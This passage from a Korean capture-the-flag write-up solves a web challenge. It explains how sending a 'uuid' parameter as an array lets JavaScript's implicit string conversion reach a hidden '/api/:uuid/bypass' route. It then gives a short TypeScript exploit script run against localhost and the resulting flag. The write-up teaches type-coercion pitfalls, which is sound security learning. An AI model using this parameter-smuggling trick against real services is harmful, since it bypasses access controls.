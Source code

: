 ```js {21, 34} title="queue.js"
  }
});
```

1. `/api/:uuid/status`: `served`가 `true`이면 `true`를 반환한다.
2. `/api/:uuid/bypass`: `served`를 `true`로 바꾼다.

그렇다면 어떻게 `/api/:uuid/bypass`에 요청할 수 있을까?

`uuid`를 문자열이 아닌 **배열**로 넘겨주면 된다.

예를 들어 `uuid`가 `['<uuid>/bypass#', '0', ...., '0']`와 같은 배열이라면 `http://<url>/api/<uuid>/bypass#,0,.....,0/status` 이런 형식의 URL로 바뀌게 된다.

:::warning
JavaScript에서는 자동적으로 형변환을 한다.

예를 들자면, `['a', 'b', 'c'].toString()`은 `'a,b,c'`가 된다.<br>
또한, `{ a: 'b' }.toString()`은 `'[object Object]'`가 된다.

만약에 이를 비교연산에 사용한다고 하면 다음과 같이 된다.

```js
console.log({ a: 'b' } == '[object Object]'); // true
```

이는 `==` 연산자가 두 피연산자의 타입을 맞추기 위해 자동적으로 형변환을 하기 때문이다.<br>
따라서, 안전한 코드를 작성하기 위해서는 `===`를 사용하거나 **타입을 확인하는 코드**를 작성해야 한다.

:::

즉, 위와 같은 형식으로 보내면 `served`가 `true`로 바뀌게 되고 `flag`를 얻을 수 있다.

```typescript title="exploit.ts"
import { logger } from '@utils';
import { create } from '@web';

const r = create({
  baseURL: 'http://localhost:3000',
  ignoreHttpErrors: true,
});

await r.post('/');

await r.post('/', {
  uuid: [`${r.getCookie('uuid')}/bypass#`, ...'1'.repeat(35).split('')],
});

await r
  .post('/', {
    uuid: r.getCookie('uuid'),
  })
  .then((res) => logger.flag(res.data));
```

`lactf{Byp455in_7he_Qu3u3}`

## web/hptla (40 solves, 487 points)
